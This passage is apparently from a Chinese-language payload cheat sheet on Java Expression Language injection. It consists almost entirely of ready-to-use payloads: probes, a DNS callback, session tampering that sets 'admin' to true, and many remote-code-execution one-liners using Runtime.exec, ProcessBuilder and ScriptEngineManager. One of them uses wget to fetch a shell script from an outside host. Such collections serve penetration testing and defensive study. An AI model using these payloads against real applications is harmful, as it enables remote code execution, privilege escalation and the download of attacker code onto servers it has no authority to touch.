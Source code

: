 ```ps1
${2.class}
${2.class.forName("java.lang.String")}
${''.getClass().forName('java.lang.Runtime').getMethods()[6].toString()}
```

### 表达式语言 EL - 不包括代码执行的单行注入

```java
// DNS查找
${"".getClass().forName("java.net.InetAddress").getMethod("getByName","".getClass()).invoke("","xxxxxxxxxxxxxx.burpcollaborator.net")}

// JVM系统属性查找（例如：java.class.path）
${"".getClass().forName("java.lang.System").getDeclaredMethod("getProperty","".getClass()).invoke("","java.class.path")}

// 修改会话属性
${pageContext.request.getSession().setAttribute("admin",true)}
```

### 表达式语言 EL - 代码执行

```java
// 常见RCE有效载荷
''.class.forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec(<COMMAND STRING/ARRAY>)
''.class.forName('java.lang.ProcessBuilder').getDeclaredConstructors()[1].newInstance(<COMMAND ARRAY/LIST>).start()

// 使用Runtime的方法
#{session.setAttribute("rtc","".getClass().forName("java.lang.Runtime").getDeclaredConstructors()[0])}
#{session.getAttribute("rtc").setAccessible(true)}
#{session.getAttribute("rtc").getRuntime().exec("/bin/bash -c whoami")}

// 使用进程构建器的方法
${request.setAttribute("c","".getClass().forName("java.util.ArrayList").newInstance())}
${request.getAttribute("c").add("cmd.exe")}
${request.getAttribute("c").add("/k")}
${request.getAttribute("c").add("ping x.x.x.x")}
${request.setAttribute("a","".getClass().forName("java.lang.ProcessBuilder").getDeclaredConstructors()[0].newInstance(request.getAttribute("c")).start())}
${request.getAttribute("a")}

// 使用反射和调用
${"".getClass().forName("java.lang.Runtime").getMethods()[6].invoke("".getClass().forName("java.lang.Runtime")).exec("calc.exe")}
${''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(''.getClass().forName('java.lang.Runtime')).exec('whoami')}

// 使用ScriptEngineManager一行代码
${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"ping x.x.x.x\\\")"))}

// 使用JavaClass
T(java.lang.Runtime).getRuntime().exec('whoami').x

// 使用ScriptEngineManager
${facesContext.getExternalContext().setResponseHeader("output","".getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("JavaScript").eval(\"var x=new java.lang.ProcessBuilder;x.command(\\\"wget\\\",\\\"http://x.x.x.x/1.sh\\\");org.apache.commons.io.IOUtils.toString(x.start().getInputStream())\"))}
```

---